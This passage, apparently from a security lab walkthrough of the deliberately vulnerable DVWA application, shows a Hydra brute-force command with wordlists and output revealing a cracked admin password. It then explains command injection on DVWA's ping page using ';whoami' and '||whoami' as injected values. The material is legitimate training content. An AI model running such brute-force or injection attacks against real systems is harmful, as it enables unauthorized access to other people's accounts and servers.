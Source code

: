 ``` plain
cat users.txt
admin
test
administrator

cat pass.txt
admin
1234
password
letmein
test
password1234
```

I ran Hydra like this:

``` plain
hydra 192.168.127.128 -L ~/Desktop/users.txt -P ~/Desktop/pass.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=798cbe3ff31159e5a08aae5a407f81cf"

Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-08-09 13:05:32
[DATA] 16 tasks, 1 server, 18 login tries (l:3/p:6), ~1 try per task
[DATA] attacking service http-get-form on port 80
[80][www-form] host: 192.168.127.128   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-08-09 13:05:33
```

And we have cracked it! 

### Command Execution

[**Overview**](https://www.owasp.org/index.php/Command_Injection)
> Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable 
> application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers
> etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of 
> the vulnerable application. Command injection attacks are possible largely due to insufficient input validation. 

{% img center /images/dvwa/rce.png 'code execution' 'remote code execution' %}

On this page we can ping an arbitrary IP address. We can run arbitrary code by typing <code>;whoami</code>, which will tell us the server is running as the *www-data* user. The semicolon is a way to stack commands in Linux, so here we use it to end the previous command (which was the ping functionality), and we insert a new command of our choosing to be run by the vulnerable server.

On medium, the same results can be achieved by entering <code>||whoami</code> instead.
